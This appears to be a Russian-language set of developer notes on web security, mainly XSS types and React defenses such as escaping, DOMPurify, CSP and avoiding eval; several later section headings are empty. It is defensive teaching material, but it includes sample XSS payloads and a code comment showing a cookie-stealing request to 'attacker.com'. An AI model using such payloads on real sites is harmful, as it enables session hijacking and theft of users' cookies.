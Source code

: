 # ClickJacking

# XSS (Cross Site Scripting)

XSS — это внедрение вредоносного кода на страницы атакуемого сервиса.

- Reflected XSS = Отражённый, потому что его действие сразу же отражается на поведении страницы.
- Stored XSS = "хранимый", это вредоносный код, который каким-то образом сохранился в атакуемом сервисе. Он мог быть записан в базу, сохранён на диске в виде текста, изображения, мог сохраниться в оперативной памяти сервера.
- Injection = самый частый пример - SQL-инъекции
- Key logger = разновидность XSS. Представим, что злоумышленники внедрили код, который отправляет все данные, набранные с клавиатуры

SQL-инъекции
Их суть заключается в доступе к данным атакуемого сервиса или их изменению. Ну или удалению, всякое бывает.

## Защита от XSS

**1. Никогда не вставляй HTML напрямую**

не использовать dangerouslySetInnerHTML, если только не уверен в источнике и не очистил HTML.
--------------------------------------------
**2. Экранирование пользовательского ввода**

В React JSX по умолчанию все переменные безопасны:

```js
const userInput = '<script>alert("XSS")</script>';

<p>{userInput}</p>; // Безопасно: React экранирует строку
```

Если ты рендеришь HTML вручную (например, в innerHTML), обязательно очищай ввод:

```js
import DOMPurify from "dompurify";

const safeHtml = DOMPurify.sanitize(userInput);
<div dangerouslySetInnerHTML={{ __html: safeHtml }} />;
```
-------------------------------------
**3. Content Security Policy (CSP)**
CSP — это заголовок, который блокирует внедрение внешних скриптов, инлайнового JS и т. д.
Настраивается на сервере, пример:

```js
Content-Security-Policy: default-src 'self'; script-src 'self'
```
--------------------------------------
**4. Избегай инлайновых обработчиков**

```js
<!-- Уязвимо -->
<button onclick="alert(document.cookie)">Click</button>
```

Используй JS-функции, а не строки HTML:

```js
<button onClick={() => alert("safe")}>Click</button>
```
-------------------------------------------------
**5. Валидация и фильтрация данных на клиенте.**

Не пускай в форму всё подряд: даже на клиенте можно ограничивать ввод.
Например, использовать input[type="email"], маски, валидацию.
Но клиентская валидация = удобство, а не защита — всё равно проверяй данные на сервере.

**6. Избегать eval, new Function.**
new Function(...) в JavaScript — это динамический способ выполнения кода, очень похожий на eval(). Именно поэтому он опасен и может привести к XSS.

Ты буквально создаешь новую функцию из строки кода, передавая тело функции в виде строки:

```js
const fn = new Function("a", "b", "return a + b");
console.log(fn(2, 3)); // 5
```

Как пример того, что могут закинуть в приложение:

```js
const code = getUserInput(); // "return fetch('http://attacker.com?cookie=' + document.cookie)"
const run = new Function(code); // уязвимо
run(); // злоумышленник получает куки
```

# CSRF (Cross Site Request Forgery)

# Man In The Middle (MITM)

# Denial of Service

# HTTP Request Smuggling
